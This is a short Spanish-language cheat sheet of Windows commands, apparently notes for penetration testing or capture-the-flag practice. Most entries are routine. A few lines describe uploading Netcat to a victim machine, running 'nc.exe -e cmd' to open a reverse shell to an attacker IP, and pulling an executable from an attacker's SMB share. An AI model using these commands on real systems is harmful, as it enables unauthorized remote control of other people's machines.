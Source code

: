 # Comandos Windows ❮❯

**C:\Windows\Temp** Directorio en donde tenemos capacidad de escritura y lectura

❯ **ipconfig** Nos muestra las interfaces y las direcciones IP

❯ **cls** Nos ayuda a limpiar la pantalla
❯ **dir** Nos muestra el contenido del directorio
	❯ **dir /r /s ❮File.txt❯ Buscamos de forma recursiva el string .txt
❯ **type ❮File❯** Nos muestra el contenido del archivo
❯ **cd ❮Path❯ Nos cambia de directorio (**C:\\Users\\**)
❯ **ipconfig** Nos reportara las interfaces y sus IP's
❯ **upload ❮Path/nc.exe❯** Para subir el archivo Netcat desde la maquina victima

❯ **nc.exe -e cmd ❮IP Atacante❯ ❮Port❯** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico
❯ **netstat -nat** Miramos los puertos abiertos
❯ **services** Para ver los servicios que estan corriendo en Windows 
❯ **mkdir ❮Name❯** Nos creamos un directorio con un nombre especifico
❯ **copy \❮Nuestra IP❯\\❮Folder_name❯\\❮File.exe❯ ❮File.exe❯** Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante
